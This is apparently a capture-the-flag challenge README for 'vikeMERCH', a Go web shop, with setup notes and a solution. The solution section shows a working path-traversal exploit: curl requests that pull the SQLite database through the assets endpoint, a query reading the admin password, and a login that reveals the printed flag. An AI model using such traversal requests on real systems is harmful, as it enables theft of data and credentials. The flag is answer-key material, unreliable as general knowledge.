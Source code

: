 # vikeMERCH

**Author: [`Malcolm Seyd`](https://github.com/malcolmseyd)**

**Category: `Web Easy`**

## Description

Welcome to vikeMERCH, your one stop shop for Viking-themed merchandise! We're still working on our website, but don't let that stop you from browsing our high-quality items. We just know you'll love the Viking sweater vest.

## Organizers

The flag must be input when running the container. Here's an example of what you'll want to run:

```console
$ docker run --rm -p 127.0.0.1:8080:8080/tcp -e FLAG='vikeCTF{testing}' -e GIN_MODE=release vikemerch
```

The admin password is randomly generated during the build step, so we shouldn't distribute a compiled image.

## Solution

The asset handler has a path-traversal vulnerability. The key takeaway from this challenge is that Go's `path.Clean` is **not safe for input sanitization**, which many users of the language find surprising.

We can use this knowledge to download the SQLite database and read the admin password.

```console
$ curl 'http://localhost:8080/assets?id=../db.sqlite3' > db.sqlite3
$ sqlite3 db.sqlite3 "SELECT password FROM user WHERE username = 'admin'"
43ae9e2b73539ba0f10fc059ce5d7c9d4944c28c4af086863a04594b8d0fbda1
$ curl 'http://localhost:8080/admin' -d 'username=admin&password=43ae9e2b73539ba0f10fc059ce5d7c9d4944c28c4af086863a04594b8d0fbda1'
vikeCTF{whY_w0ulD_g0_d0_th15}
```

## Flag

```
vikeCTF{whY_w0ulD_g0_d0_th15}
```
